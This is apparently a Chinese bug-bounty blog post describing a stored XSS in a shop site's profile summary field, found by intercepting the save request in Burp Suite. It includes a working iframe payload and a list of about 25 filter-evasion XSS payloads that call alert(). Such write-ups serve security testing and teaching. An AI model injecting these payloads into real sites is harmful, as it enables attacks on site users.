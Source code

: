#  【赏金猎人】商店留言板xss漏洞   
原创 Fighter  重生者安全   2024-02-21 00:56  
  
使  
用谷歌登  
录网站  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/SEVwkT7gYkkwWicVNyeLBOBiaV9y4euSibohCvyAk3QmGhTkiceLoJ47DRryhGd1zxib0mKLMW1k2KJjXVf0Qic0y3dA/640?wx_fmt=png&from=appmsg "")  
  
来到个人页面的总结概况，burpsuite打开拦截，在这个添加概要的框框中，随意输入信息，点击save保存。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/SEVwkT7gYkkwWicVNyeLBOBiaV9y4euSiboiaM6lBgj3BSmS0GPtb8ASicJl9xiaT7BpiaOmQoVzeuE1v3bdUlxMxP4HQ/640?wx_fmt=png&from=appmsg "")  
  
拦截输入中的 参数存在xss漏洞  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/SEVwkT7gYkkwWicVNyeLBOBiaV9y4euSiboypZw8tIj2no2yoRp2z96WnNM2cIwdA2ScoGBdqvSUibyD2AiaUx4farg/640?wx_fmt=png&from=appmsg "")  
  
将summary参数的类容改成xss payload：<iframe src=javascript:prompt(1)></iframe>  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/SEVwkT7gYkkwWicVNyeLBOBiaV9y4euSibovHDcupFHfDZww0Z8w5zD9vub5Uo6G2NADW8cHqCsJJQnicHedgPsIzA/640?wx_fmt=png&from=appmsg "")  
  
放开数据包后成功弹窗  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/SEVwkT7gYkkwWicVNyeLBOBiaV9y4euSibo5YqyqaejRzdECItuWQU3OreqyJo5VkyUosHZ0Ll2Kk7gcHHrRrH22g/640?wx_fmt=png&from=appmsg "")  
  
测试XSS常用payload：  
```

'`"><\x3Cscript>javascript:alert(8)</script>
'`"><\x00script>javascript:alert(9)</script>
<img src=10 href=10 onerror="javascript:alert(10)"></img>
<object src=15 href=15 onerror="javascript:alert(15)"></object>
<script src=16 href=16 onerror="javascript:alert(16)"></script>
<svg onResize svg onResize="javascript:javascript:alert(17)"></svg onResize>
<title onPropertyChange title onPropertyChange="javascript:javascript:alert(18)"></title onPropertyChange>
<iframe onLoad iframe onLoad="javascript:javascript:alert(19)"></iframe onLoad>
<body onMouseEnter body onMouseEnter="javascript:javascript:alert(20)"></body onMouseEnter>
<a href="javas\x06cript:javascript:alert(101)" id="fuzzelement101">test</a>
<a href="javas\x0Ccript:javascript:alert(102)" id="fuzzelement102">test</a>
<script>/* *\x2A/javascript:alert(103)// */</script>
<script>/* *\x00/javascript:alert(104)// */</script>
<style></style\x3E<img src="about:blank" onerror=javascript:alert(105)//></style>
<script>if("x\\xE112\x96\x89".length==2) { javascript:alert(112);}</script>
<script>if("x\\xE0\xB9\x92".length==2) { javascript:alert(113);}</script>
<script>if("x\\xEE\xA9\x93".length==2) { javascript:alert(114);}</script>
'`"><\x3Cscript>javascript:alert(115)</script>
'`"><\x00script>javascript:alert(116)</script>
"'`><\x3Cimg src=xxx:x onerror=javascript:alert(117)>
"'`><\x00img src=xxx:x onerror=javascript:alert(118)>
<script src="data:text/plain\x2Cjavascript:alert(119)"></script>
<script src="data:\xCB\x8F,javascript:alert(122)"></script>
<script\x0Ctype="text/javascript">javascript:alert(127);</script>
<script\x2Ftype="text/javascript">javascript:alert(128);</script>
```  
  
  
喜欢朋友可以点点赞转发转发![](https://res.wx.qq.com/t/wx_fed/we-emoji/res/v1.3.10/assets/newemoji/Social.png "")  
  
  
**免责声明：本公众号不承担任何由于传播、利用本公众号所发布内容而造成的任何后果及法律责任。****未经许可，不得转载。******  
  
